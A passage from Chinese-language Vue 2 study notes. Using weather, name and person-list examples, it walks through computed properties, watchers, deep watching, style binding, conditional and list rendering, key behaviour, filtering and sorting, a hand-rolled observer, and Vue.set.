                //get的调用时机：1. 初次读取fullName时，2.所依赖的属性（firstname、lastname）发生变化时
                get(){
                    console.log("get被调用了！")
                    return this.firstname + '-' + this.lastname;
                },
                set(val){
                    console.log("set(val="+val+")")
                    const arr = val.split('-');
                    this.firstname = arr[0];
                    this.lastname = arr[1];
                }
            }
        }
    })
</script>
</body>
</html>
```


#### 计算属性简写

也是前面的案例，不过是计算属性只读不写。

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>计算属性实现</title>
    <!--引入Vue-->
    <script type="application/javascript" src="../js/vue.js"></script>
</head>
<body>
<div id="root">
    姓：<input type="text" v-model="firstname"><br>
    名：<input type="text" v-model="lastname"><br>
    全名：<span>{{fullName}}</span><br>
    全名：<span>{{fullName}}</span><br>
    全名：<span>{{fullName}}</span><br>
    全名：<span>{{fullName}}</span><br>
</div>

<script type="application/javascript">
    // 阻止vue在启动时生成生产环境提示
    Vue.config.productionTip= false

    const vm = new Vue({
        el:'#root',
        data:{
            firstname: '张',
            lastname: '三'
        },
        computed:{
            //完整写法
            /*fullName:{
                get(){
                    console.log("get被调用了！")
                    return this.firstname + '-' + this.lastname;
                },
                set(val){
                    console.log("set(val="+val+")")
                    const arr = val.split('-');
                    this.firstname = arr[0];
                    this.lastname = arr[1];
                }
            }*/
            //简写：只读不写
            fullName() {
                console.log("get被调用了！")
                return this.firstname + '-' + this.lastname;
            }
        }
    })
</script>
</body>
</html>
```

#### 监听属性概念

```
监听属性的变化，当属性变化时触发监听方法，监听方法可以获取属性的变化前和变化后的内容。
```


#### 天气案例：mthods实现

```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <title>天气案例</title>
  <!--引入Vue-->
  <script type="application/javascript" src="../js/vue.js"></script>
</head>
<body>
<div id="root">
  <h2>今天天气很{{info}}</h2>
  <button @click="changeWeather">切换天气</button>
</div>

<script type="application/javascript">
  // 阻止vue在启动时生成生产环境提示
  Vue.config.productionTip= false

  new Vue({
    el:'#root',
    data:{
      isHot: true
    },
    computed:{
      info(){
        return this.isHot?'炎热':'凉爽';
      }
    },
    methods:{
      changeWeather(){
        this.isHot = !this.isHot;
      }
    }
  })
</script>
</body>
</html>
```


#### 天气案例：在绑定事件中执行

```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <title>天气案例</title>
  <!--引入Vue-->
  <script type="application/javascript" src="../js/vue.js"></script>
</head>
<body>
<div id="root">
  <h2>今天天气很{{info}}</h2>
  <button @click="isHot = !isHot;">切换天气</button>
</div>

<script type="application/javascript">
  // 阻止vue在启动时生成生产环境提示
  Vue.config.productionTip= false

  new Vue({
    el:'#root',
    data:{
      isHot: true
    },
    computed:{
      info(){
        return this.isHot?'炎热':'凉爽';
      }
    },
    methods:{
      /*changeWeather(){
        this.isHot = !this.isHot;
      }*/
    }
  })
</script>
</body>
</html>
```


#### 天气案例：监视属性


```
即监视属性的变化
```

```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <title>天气案例_监视属性</title>
  <!--引入Vue-->
  <script type="application/javascript" src="../js/vue.js"></script>
</head>
<body>
<div id="root">
  <h2>今天天气很{{info}}</h2>
  <button @click="isHot = !isHot;">切换天气</button>
</div>

<script type="application/javascript">
  // 阻止vue在启动时生成生产环境提示
  Vue.config.productionTip= false

  //在Vue实例内部配置，在创建Vue实例时就知道要监视谁
  const vm = new Vue({
    el:'#root',
    data:{
      isHot: true
    },
    computed:{
      info(){
        return this.isHot?'炎热':'凉爽';
      }
    },
    methods:{
      /*changeWeather(){
        this.isHot = !this.isHot;
      }*/
    },
    watch:{//配置watch对象
      isHot: {//要监视的属性
        immediate: true,//初始化时让handler调用一下
        //handler当isHot属性发生改变时调用
        handler(newValue,oldValue){//监听新旧数据，可以做对比来做后续操作
          console.log("isHot被修改了:newValue="+newValue+",oldValue="+oldValue)
        }
      },
      info:{//也可以监视计算属性
        immediate: true,
        handler(newValue,oldValue){
          console.log("info被修改了:newValue="+newValue+",oldValue="+oldValue)
        }
      }
    }
  })
  //可以在Vue外部配置，在Vue实例创建后再添加监视对象
  vm.$watch('isHot',{
    immediate: true,//初始化时让handler调用一下
    //handler当isHot属性发生改变时调用
    handler(newValue,oldValue){//监听新旧数据，可以做对比来做后续操作
      console.log("isHot被修改了:newValue="+newValue+",oldValue="+oldValue)
    }
  })
</script>
</body>
</html>
```


#### 天气案例：深度监视

```
Vue可以监视属性的多层次改变，但Vue本身提供的watch监视功能不能监视到属性多层次改变，添加deep配置后支持。
```


* 在没开启deep时，监视一个对象属性中的子属性变化，只能一个个监视'numbers.a'，'numbers.b'
* 直接监视'numbers'则是监视对象属性本身，因为是对象，所以这个属性是指到对象地址，所以不是监视对象内部，而是监视对象本身，对内部子属性的更改不会触发监视
* 使用deep=true之后，可以监视到numbers对象内部所有字属性的变化

```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <title>天气案例_深度监视</title>
  <!--引入Vue-->
  <script type="application/javascript" src="../js/vue.js"></script>
</head>
<body>
<div id="root">
  <h2>今天天气很{{info}}</h2>
  <button @click="isHot = !isHot;">切换天气</button>
  <hr>
  <h3>a的值是{{numbers.a}}</h3>
  <button @click="numbers.a++">点我++</button>
  <h3>b的值是{{numbers.b}}</h3>
  <button @click="numbers.b++">点我++</button>
</div>

<script type="application/javascript">
  // 阻止vue在启动时生成生产环境提示
  Vue.config.productionTip= false

  //在Vue实例内部配置，在创建Vue实例时就知道要监视谁
  const vm = new Vue({
    el:'#root',
    data:{
      isHot: true,
      numbers:{
        a:1,
        b:1
      }
    },
    computed:{
      info(){
        return this.isHot?'炎热':'凉爽';
      }
    },
    watch:{
      isHot: {//使用属性的简写写法
        handler(newValue,oldValue){
          console.log("isHot被修改了:newValue="+newValue+",oldValue="+oldValue)
        }
      },
      /*'numbers.a':{//使用属性的原始写法。监视多级结构中某个属性的变化
        handler(newValue, oldValue) {
          console.log("numbers.a被修改了:newValue="+newValue+",oldValue="+oldValue)
        }
      }*/
      numbers: {
        deep:true,//开启深度的情况下是监视numbers中的属性，不开启是监视numbers本身对象的地址
        handler(newValue, oldValue) {
          console.log("numbers被修改了:newValue="+JSON.stringify(newValue)+",oldValue="+JSON.stringify(oldValue))
        }
      }
    }
  })

</script>
</body>
</html>
```


#### 监视简写

```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <title>天气案例_深度监视</title>
  <!--引入Vue-->
  <script type="application/javascript" src="../js/vue.js"></script>
</head>
<body>
<div id="root">
  <h2>今天天气很{{info}}</h2>
  <button @click="isHot = !isHot;">切换天气</button>
</div>

<script type="application/javascript">
  // 阻止vue在启动时生成生产环境提示
  Vue.config.productionTip= false

  //在Vue实例内部配置，在创建Vue实例时就知道要监视谁
  const vm = new Vue({
    el:'#root',
    data:{
      isHot: true
    },
    computed:{
      info(){
        return this.isHot?'炎热':'凉爽';
      }
    },
    watch:{
      /*isHot: {
        handler(newValue,oldValue){
          console.log("isHot被修改了:newValue="+newValue+",oldValue="+oldValue)
        }
      },*/
      //当监视属性只有一个handler时可以简写
      isHot(newValue,oldValue){
        console.log("isHot被修改了:newValue="+newValue+",oldValue="+oldValue)
      }
    }
  })
  //外部监视简写
  vm.$watch('isHot',function (newValue,oldValue) {
    console.log("isHot被修改了:newValue="+newValue+",oldValue="+oldValue)
  })
</script>
</body>
</html>
```

#### 使用监视属性实现计算属性的功能

#### 姓名案例：监视属性实现

```
给data新增一个全名属性，当修改姓或名属性时，就会触发监听方法，方法中将新的值组合姓/名后重新赋予全名。
```

```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <title>计算属性实现</title>
  <!--引入Vue-->
  <script type="application/javascript" src="../js/vue.js"></script>
</head>
<body>
<div id="root">
  姓：<input type="text" v-model="firstname"><br>
  名：<input type="text" v-model="lastname"><br>
  全名：<span>{{fullName}}</span><br>
</div>

<script type="application/javascript">
  // 阻止vue在启动时生成生产环境提示
  Vue.config.productionTip= false

  const vm = new Vue({
    el:'#root',
    data:{
      firstname: '张',
      lastname: '三',
      fullName: '张-三'
    },
    watch:{
      firstname(newValue){
        this.fullName = newValue +'-'+ this.lastname;
      },
      'lastname':{
        handler(newValue){
          this.fullName = this.firstname +'-'+ newValue;
        }
      }
    }
  })
</script>
</body>
</html>
```


注：计算属性中不能开启异步任务。监视属性可以使用异步任务，因为监听属性是监听并处理数据变化情况，没有返回值。

正常可以使用计算属性实现时，优先选择计算属性。

当遇到需要异步更新的常见时，使用监听属性。


当在Vue实例中定义函数时，如果函数体中使用了vue管理的属性，则函数不能使用=>，因为这样这一个函数就由Windows接管了，vue的内容无法获取。

### 绑定样式


Vue提供了对样式的管理，可以将经常由于某些业务而出现改变的样式，即动态的样式交由Vue来管理，这样即可以更灵活对Vue容器进行样式设计。样式的管理功能基于v-bind。

```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <title>绑定样式</title>
  <!--引入Vue-->
  <script type="application/javascript" src="../js/vue.js"></script>
  <style>
    .basic{
      width: 400px;
      height: 100px;
      border: 1px solid black;
     }
    .happy{
      border: 4px solid red;;
      background-color: rgba(255, 255, 0, 0.644);
      background: linear-gradient(30deg,yellow,pink,orange,yellow);
    }
    .sad{
      border: 4px dashed rgb(2, 197, 2);
      background-color: gray;
    }
    .normal{
      background-color: skyblue;
    }

    .zhuzhe1{
      background-color: yellowgreen;
    }
    .zhuzhe2{
      font-size: 30px;
      text-shadow:2px 2px 10px red;
    }
    .zhuzhe3{
      border-radius: 20px;
    }
  </style>
</head>
<body>
<div id="root">
  <!--v-bind的样式绑定-->
  <!--绑定class样式：字符串写法，要绑定的样式名字不确定，需要动态指定-->
  <div class="basic" :class="mood" @click="changeMood">{{name}}</div><br>
  <!--绑定class样式：数组写法，要绑定的样式个数、名字也不确定-->
  <div class="basic" :class="classArr">{{name}}</div><br>
  <!--绑定calss样式：对象写法，要绑定的样式个数确定、名字也确定，但要动态决定用不用-->
  <div class="basic" :class="classObj">{{name}}</div><br>
  <!--绑定style样式:对象写法-->
  <div class="basic" :style="styleObj">{{name}}</div><br>
  <!--绑定style样式:数组写法1-->
  <div class="basic" :style="[styleObj,styleObj2]">{{name}}</div><br>
  <!--绑定style样式:数组写法2-->
  <div class="basic" :style="styleArr">{{name}}</div><br>
</div>

<script type="application/javascript">
  // 阻止vue在启动时生成生产环境提示
  Vue.config.productionTip= false

  new Vue({
    el:'#root',
    data:{
      name:'zhuzhe',
      mood:'normal',//动态样式初始名，被Vue实例监听，变动时立即更新到容器
      classArr:['zhuzhe1','zhuzhe2','zhuzhe3'],//但凡是变化的都交给vue
      classObj:{
        zhuzhe1:false,
        zhuzhe2:false
      },
      styleObj:{
        fontSize:'40px',
      },
      styleObj2:{
        backgroundColor: 'orange'
      },
      styleObj3:{
        color: 'red'
      },
      styleArr:[
        {
          fontSize: '30px',
          color: 'blue'
        },
        {
          backgroundColor:'gray'
        }
      ]
    },
    methods:{
      changeMood(){//点击事件触发后，切换属性
        this.mood = 'happy'
        const arr = ['happy','sad','normal'];
        const index = Math.floor(Math.random()*3);//随机0-2
        this.mood = arr[index];//返回随机样式类名
      }
    }
  })
</script>
</body>
</html>
```


对应的Vue实例


因为样式由Vue实例管理，所有可以实现各种样式的组合切换。

### 条件渲染

`v-show`、`v-if`、`v-else-if`、`v-else`、`template`


当点击按钮递增n时，在n处于不同值情况展示不同标签。

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>条件渲染</title>
    <!--引入Vue-->
    <script type="application/javascript" src="../js/vue.js"></script>
</head>
<body>
<div id="root">
    <!--v-show做条件渲染，表示展示，底层是调整display属性-->
    <!--<h2 v-show="false">hello,{{name}}</h2>-->
    <!--<h2 v-show="1==1">hello,{{name}}</h2>-->

    <!--适用v-if做条件渲染，表示元素是否存在容器，直接控制DOM元素，对性能影响大-->
    <!--<h2 v-if="false">hello,{{name}}</h2>-->
    <!--<h2 v-if="1==1">hello,{{name}}</h2>-->

    <h2>读取的n值是{{n}}</h2>
    <button @click="n++">点我n+1</button>
    <!--当n值变化时，就会被Vue实例监听到，监听到就会让模板重新解析，重新解析过程就会下面进行判断-->
    <div v-show="n===1">Angular</div>
    <div v-show="n===2">React</div>
    <div v-show="n===3">Vue</div>

    <div v-if="n===1">Angular</div>
    <!--<div>@</div>--><!--if-else结构不能中间存在其他元素，否则会打断-->
    <div v-else-if="n===2">React</div>
    <div v-else-if="n===3">Vue</div>
    <div v-else>Test</div>

    <!--多个元素应用相同判断，使用template元素，在判断成功后template会自动消息不影响结构-->
    <template v-if="n===1">
        <h2>你好</h2>
        <h2>zhuzhe</h2>
        <h2>cxr</h2>
    </template>
</div>

<script type="application/javascript">
    // 阻止vue在启动时生成生产环境提示
    Vue.config.productionTip= false

    new Vue({
        el:'#root',
        data:{
            name:'zhuzhe',
            n:0
        }
    })
</script>
</body>
</html>
```


### 列表渲染

`遍历数组`、`遍历对象`、`遍历字符串`、`遍历次数`、`for-in for-of`


```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <title>基本列表</title>
  <!--引入Vue-->
  <script type="application/javascript" src="../js/vue.js"></script>
</head>
<body>
<div id="root">
  <!--遍历数组-->
  <h2>人员列表：</h2>
  <ul>
    <!--哪个要遍历创建就将v-for加在它上面，如果你使用了遍历，则必须给元素添加唯一表示key-->
    <!--<li v-for="person in persons" :key="person.id">{{person.name}}-{{person.age}}</li>-->
    <li v-for="(person,index) in persons" :key="index">{{person.name}}-{{person.age}}</li>
  </ul>
  <!--遍历对象-->
  <h2>汽车信息</h2>
  <ul>
    <!--遍历对象时是value-value-->
    <li v-for="(value,key) of car">{{key}}:{{value}}</li>
  </ul>
  <!--遍历字符串-->
  <h2>测试遍历字符串</h2>
  <ul>
    <!--遍历对象时是value-value-->
    <li v-for="(char,index) of str">{{index}}-{{char}}</li>
  </ul>
  <!--遍历指定次数-->
  <h2>测试遍历指定次数</h2>
  <ul>
    <!--遍历对象时是value-value-->
    <li v-for="(num,index) of 10">{{index}}-{{num}}</li>
  </ul>
</div>

<script type="application/javascript">
  // 阻止vue在启动时生成生产环境提示
  Vue.config.productionTip= false

  new Vue({
    el:'#root',
    data:{
      persons:[
        {id:'001',name:'zhuzhe',age:18},
        {id:'002',name:'cxr',age:19},
        {id:'003',name:'cxk',age:20}
      ],
      car:{
        name:'奥迪A8',
        color:'黑色',
        price:'70w'
      },
      str:'hello'
    }
  })
</script>
</body>
</html>
```


#### key的原理

这里通过一个错误案例，介绍了key在Vue实例中的作用：虚拟DOM的diff算法

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>key的原理</title>
    <!--引入Vue-->
    <script type="application/javascript" src="../js/vue.js"></script>
</head>
<body>
<div id="root">
    <button @click.once="add">添加一个老刘</button>
    <!--遍历数组-->
    <h2>人员列表：</h2>
    <ul>
        <li v-for="(person,index) in persons" :key="index">
          {{person.name}}-{{person.age}}
          <input type="text">
        </li>
    </ul>
</div>

<script type="application/javascript">
    // 阻止vue在启动时生成生产环境提示
    Vue.config.productionTip = false

    new Vue({
        el: '#root',
        data: {
            persons: [
                {id: '001', name: 'zhuzhe', age: 18},
                {id: '002', name: 'cxr', age: 19},
                {id: '003', name: 'cxk', age: 20}
            ]
        },
        methods: {
            add() {
                const p = {id: '004', name: '老刘', age: 40}
                this.persons.unshift(p);//将一个元素插入到数组的最前面
            }
        }
    })
</script>
</body>
</html>
```

用户正常操作真实DOM


此时再添加一个元素，会经过虚拟DOM的diff比较，结果出现了问题


由于Vue维护虚拟DOM来提高效率，在用户操作真实DOM后，添加新元素会经过虚拟DOM，虚拟DOM是不知道真实DOM的用户操作，所以是拿原版虚拟DOM比较新版虚拟DOM（这个过程就是先根据key来找到相同DOM元素来比较），然后更新到页面，导致用户在真实DOM的操作会产生错位。


（局部复用，这里从第一个虚拟DOM元素老刘比较时，出现了文字是来自新虚拟DOM，但输入框比较一致，拿了对应真实DOM的输入框开始，往后的数据都产生了错位）

使用index作为key，新数据只能插在后面，因为key会因为数据插入的位置而重新编排。如果是使用自己定义的唯一标识id，则不管插在数据哪里都不会变。（就算不写key，Vue也会默认给你用数组的index来作为key）


对前面错误案例的处理：key选用自己定义的唯一标识

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>key的原理</title>
    <!--引入Vue-->
    <script type="application/javascript" src="../js/vue.js"></script>
</head>
<body>
<div id="root">
    <button @click.once="add">添加一个老刘</button>
    <!--遍历数组-->
    <h2>人员列表：</h2>
    <ul>
        <li v-for="(person,index) in persons" :key="person.id">
          {{person.name}}-{{person.age}}
          <input type="text">
        </li>
    </ul>
</div>

<script type="application/javascript">
    // 阻止vue在启动时生成生产环境提示
    Vue.config.productionTip = false

    new Vue({
        el: '#root',
        data: {
            persons: [
                {id: '001', name: 'zhuzhe', age: 18},
                {id: '002', name: 'cxr', age: 19},
                {id: '003', name: 'cxk', age: 20}
            ]
        },
        methods: {
            add() {
                const p = {id: '004', name: '老刘', age: 40}
                this.persons.unshift(p);//将一个元素插入到数组的最前面
            }
        }
    })
</script>
</body>
</html>
```

正常添加数据


新增一个元素，正常新增




#### 列表过滤

**使用watch实现**

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>列表过滤</title>
    <!--引入Vue-->
    <script type="application/javascript" src="../js/vue.js"></script>
</head>
<body>
<div id="root">
    <input type="text" placeholder="请输入名字" v-model="keywod">
    <!--遍历数组-->
    <h2>人员列表：</h2>
    <ul>
        <li v-for="(person,index) in newPersons" :key="person.id">
          {{person.name}}-{{person.age}}-{{person.sex}}
        </li>
    </ul>
</div>

<script type="application/javascript">
    // 阻止vue在启动时生成生产环境提示
    Vue.config.productionTip = false

    new Vue({
        el: '#root',
        data: {
            persons: [
                {id: '001', name: '马冬梅', age: 18,sex:'女'},
                {id: '002', name: '周冬雨', age: 19,sex:'女'},
                {id: '003', name: '周杰伦', age: 20,sex:'男'},
                {id: '004', name: '温兆伦', age: 20,sex:'男'}
            ],
            keywod:'',
            newPersons:[]
        },
        watch:{
            keywod: {
                immediate:true,//默认调一次，因为所有的字符串都包含空串，所以可以加载出一次列表
                handler(newValue){
                    //console.log(newValue)
                    this.newPersons = this.persons.filter((person)=> {//过滤数组对象
                        return person.name.indexOf(newValue)!==-1;
                    })
                }
            }
        }
    })
</script>
</body>
</html>
```


**使用计算属性实现**

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>列表过滤</title>
    <!--引入Vue-->
    <script type="application/javascript" src="../js/vue.js"></script>
</head>
<body>
<div id="root">
    <input type="text" placeholder="请输入名字" v-model="keywod">
    <!--遍历数组-->
    <h2>人员列表：</h2>
    <ul>
        <li v-for="(person,index) in newPersons" :key="person.id">
          {{person.name}}-{{person.age}}-{{person.sex}}
        </li>
    </ul>
</div>

<script type="application/javascript">
    // 阻止vue在启动时生成生产环境提示
    Vue.config.productionTip = false

    new Vue({
        el: '#root',
        data: {
            persons: [
                {id: '001', name: '马冬梅', age: 18,sex:'女'},
                {id: '002', name: '周冬雨', age: 19,sex:'女'},
                {id: '003', name: '周杰伦', age: 20,sex:'男'},
                {id: '004', name: '温兆伦', age: 20,sex:'男'}
            ],
            keywod:''
        },
        computed:{
            newPersons:{
                get(){
                    return this.persons.filter((person)=> {//过滤数组对象，因为下面使用到了Vue实例，这里要用箭头来区分开Windows的函数
                        return person.name.indexOf(this.keywod)!==-1;
                    })
                }
            }
        }
    })
</script>
</body>
</html>
```

#### 列表排序

使用计算属性来实现，因为计算属性的函数中，如果关联到了Vue实例管理的属性，则属性在发生修改时就会被Vue实例监视到，就会重新调用计算属性计算，依据这一个来实现搜索结果排序展示。

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>列表排序</title>
    <!--引入Vue-->
    <script type="application/javascript" src="../js/vue.js"></script>
</head>
<body>
<div id="root">
    <input type="text" placeholder="请输入名字" v-model="keyword">
    <button @click="sortType = 2">年龄升序</button>
    <button @click="sortType = 1">年龄降序</button>
    <button @click="sortType = 0">年龄原序</button>
    <!--遍历数组-->
    <h2>人员列表：</h2>
    <ul>
        <li v-for="(person,index) in newPersons" :key="person.id">
          {{person.name}}-{{person.age}}-{{person.sex}}
        </li>
    </ul>
</div>

<script type="application/javascript">
    // 阻止vue在启动时生成生产环境提示
    Vue.config.productionTip = false

    new Vue({
        el: '#root',
        data: {
            persons: [
                {id: '001', name: '马冬梅', age: 30,sex:'女'},
                {id: '002', name: '周冬雨', age: 31,sex:'女'},
                {id: '003', name: '周杰伦', age: 18,sex:'男'},
                {id: '004', name: '温兆伦', age: 19,sex:'男'}
            ],
            keyword:'',
            sortType:0//0-原顺序，1-降序，2-升序
        },
        computed:{
            newPersons:{//计算属性关联了persons、keyword、sortType
                get(){
                    //将数据根据条件keyword过滤
                    const arr = this.persons.filter((person)=> {
                        return person.name.indexOf(this.keyword)!==-1;
                    });
                    //将数据根据条件sortType排序
                    if (this.sortType){//0是假，其他是真
                        arr.sort((p1,p2)=>{//1是降序
                            return this.sortType===1?p2.age-p1.age:p1.age-p2.age;
                        });
                    }
                    return arr;
                }
            }
        }
    })
</script>
</body>
</html>
```


#### Vue的数据监视(劫持)

我们可以看到Vue实例在运行过程会监视数据对象，同时如果我们想自定义监视行为还可以使用watch来定义，但需要知道Vue具体是如何实现监视效果的。

使用前面的一个列表功能，新增一个需求来测试：**点击按钮更新列表中的一项数据。**

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>更新时的一个问题</title>
    <!--引入Vue-->
    <script type="application/javascript" src="../js/vue.js"></script>
</head>
<body>
<div id="root">
    <!--遍历数组-->
    <h2>人员列表：</h2>
    <button @click="updateMdm">点击更新马冬梅信息</button>
    <ul>
        <li v-for="(person,index) in persons" :key="person.id">
          {{person.name}}-{{person.age}}-{{person.sex}}
        </li>
    </ul>
</div>

<script type="application/javascript">
    // 阻止vue在启动时生成生产环境提示
    Vue.config.productionTip = false

    const vm = new Vue({
        el: '#root',
        data: {
            persons: [
                {id: '001', name: '马冬梅', age: 30,sex:'女'},
                {id: '002', name: '周冬雨', age: 31,sex:'女'},
                {id: '003', name: '周杰伦', age: 18,sex:'男'},
                {id: '004', name: '温兆伦', age: 19,sex:'男'}
            ]
        },
        methods:{
            updateMdm(){
                /*this.persons[0].name='马老师';
                this.persons[0].age = 50;
                this.persons[0].sex = '男';*/
                this.persons[0] = {id: '001', name: '马老师', age: 50,sex:'男'};
            }
        }
    })
</script>
</body>
</html>
```

可以发现点击后，缺少更改了内存中的数据，但是Vue实例没有监测到。


**Vue监测数据改变的原理**

回顾之前的数据代理：Vue在启动时

1. 加工data
2. vm._data=data
3. getter、setter


使用原生的JS实现粗略实现Vue的一个数据监测。但只能实现一层的数据监测，Vue中会根据你所定义的数据对象层数，给所有对象都加上监测。

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>模拟一个数据监测</title>
</head>
<body>
<script type="application/javascript">
    let data = {
        name:'zhuzhe',
        addr:'汕头'
    }
    //创建一个监测对象，用于监测data中属性的变化
    const obs = new Observer(data);
    console.log("obs",obs);

    //准备一个vm模板
    let vm = {};
    vm._data = data = obs;

    //代理模式：触发getter、setter的对象和最终更新的对象不是同一个
    //监测对象：这里不再为data设置数据代理，obs获取data数据的拷贝，再为obs的数据设置数据代理，用户获取obs的数据，触发obs的getter，获取data的数据，不会再次调用obs的getter
    function Observer(obj) {
        //汇总对象中所有的属性名形成一个数组
        const keys = Object.keys(obj);
        console.log("keys:",keys);
        //给Observer对象添加属性
        keys.forEach((k)=>{
            Object.defineProperty(this,k,{
                get(){
                    return obj[k];
                },
                set(val){
                    console.log(`${k}被改变，我要去解析模板，生成虚拟DOM，调用Diff算法...`)
                    obj[k] = val;
                }
            })
        })
    }
</script>
</body>
</html>
```


#### Vue的$set功能

当需要给Vue新增一个属性时，并且在不改动代码的情况下，使添加的属性和之前定义的属性一样的功能。

例子：原本的学生信息student信息是没有性别的，现在要添加一个性别。

```

Vue.set(vm.student,'sex','男')
vm.$set(vm.student,'sex','男')
```

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Vue.set的使用</title>
    <!--引入Vue-->
    <script type="application/javascript" src="../js/vue.js"></script>
</head>
<body>
<div id="root">
    <h2>学校名称：{{name}}</h2>
    <h2>学校地址：{{addr}}</h2>
    <hr>
    <h2>学生姓名：{{student.name}}</h2>
    <h2>学生性别：{{student.sex}}</h2>
    <h2>学生真实年龄：{{student.age.rAge}}</h2>
    <h2>学生对外年龄：{{student.age.sAge}}</h2>
    <h2>朋友们：</h2>
    <ul>
        <li v-for="(f,index) of student.friends">
            {{f.name}}-{{f.age}}
        </li>
    </ul>
</div>

<script type="application/javascript">
    // 阻止vue在启动时生成生产环境提示
    Vue.config.productionTip = false

    const vm = new Vue({
        el: '#root',
        data: {
            name:'zhuzhe',
            addr:'addr',
            student:{
                name:'tom',
                age:{
                    rAge:40,
                    sAge:29
                },
                friends:[
                    {name:'cxr',age:22},
                    {name:'cxk',age:32}
                ]
            }
        }
    })
</script>
</body>
</html>
```


或是写在代码里

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Vue.set的使用</title>
    <!--引入Vue-->
    <script type="application/javascript" src="../js/vue.js"></script>
</head>
<body>
<div id="root">
    <h1>学校信息</h1>
    <h2>学校名称：{{name}}</h2>
    <h2>学校地址：{{addr}}</h2>
    <hr>
    <h1>学生信息</h1>
    <button @click="addSex">添加一个性别属性</button>
    <h2>学生姓名：{{student.name}}</h2>
    <h2 v-if="student.sex">学生性别：{{student.sex}}</h2>
    <h2>学生真实年龄：{{student.age.rAge}}</h2>
    <h2>学生对外年龄：{{student.age.sAge}}</h2>
    <h2>朋友们：</h2>
    <ul>
        <li v-for="(f,index) of student.friends">
            {{f.name}}-{{f.age}}
        </li>
    </ul>
</div>

<script type="application/javascript">
    // 阻止vue在启动时生成生产环境提示
    Vue.config.productionTip = false

    const vm = new Vue({
        el: '#root',
        data: {
            name:'zhuzhe',
            addr:'addr',
            student:{
                name:'tom',
                age:{
                    rAge:40,
                    sAge:29
                },
                friends:[
                    {name:'cxr',age:22},
                    {name:'cxk',age:32}
                ]
            }
        },
        methods:{
            addSex(){
                Vue.set(this.student,'sex','男')
            }
        }
    })
</script>
</body>
</html>
```

注：Vue.set()方法只能给data中的一个属性对象进行操作，不能对data实例本身进行操作。


注：当data中的属性是数组时，数组元素是没有getter、setter。所以当直接修改数组元素时，不会触发Vue实例的监测。

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Vue监测数据改变的原理_数组</title>
    <!--引入Vue-->
    <script type="application/javascript" src="../js/vue.js"></script>
</head>
<body>
<div id="root">
    <h1>学校信息</h1>
    <h2>学校名称：{{name}}</h2>
    <h2>学校地址：{{addr}}</h2>
    <hr>
    <h1>学生信息</h1>
    <button @click="addSex">添加一个性别属性</button>
    <h2>学生姓名：{{student.name}}</h2>
    <h2 v-if="student.sex">学生性别：{{student.sex}}</h2>
    <h2>学生真实年龄：{{student.age.rAge}}</h2>
    <h2>学生对外年龄：{{student.age.sAge}}</h2>
    <h2>朋友们：</h2>
    <ul>
        <li v-for="(f,index) of student.friends">
            {{f.name}}-{{f.age}}
        </li>
    </ul>
    <h1>爱好</h1>
    <ul>
        <li v-for="(h,index) of student.hobby">
            {{h}}
        </li>
    </ul>

</div>

<script type="application/javascript">
    // 阻止vue在启动时生成生产环境提示
    Vue.config.productionTip = false

    const vm = new Vue({
        el: '#root',
        data: {
            name:'zhuzhe',
            addr:'addr',
            student:{
                name:'tom',
                age:{
                    rAge:40,
                    sAge:29
                },
                friends:[
                    {name:'cxr',age:22},
                    {name:'cxk',age:32}
                ],
                hobby:['抽烟','喝酒','烫头']
            }
        },
        methods:{
            addSex(){
                //Vue.set(this.student,'sex','男')
                this.$set(this.student,'sex','男')
            }
        }
    })
</script>
</body>
</html>
```


在Vue中是通过监测数组常见操作方法：


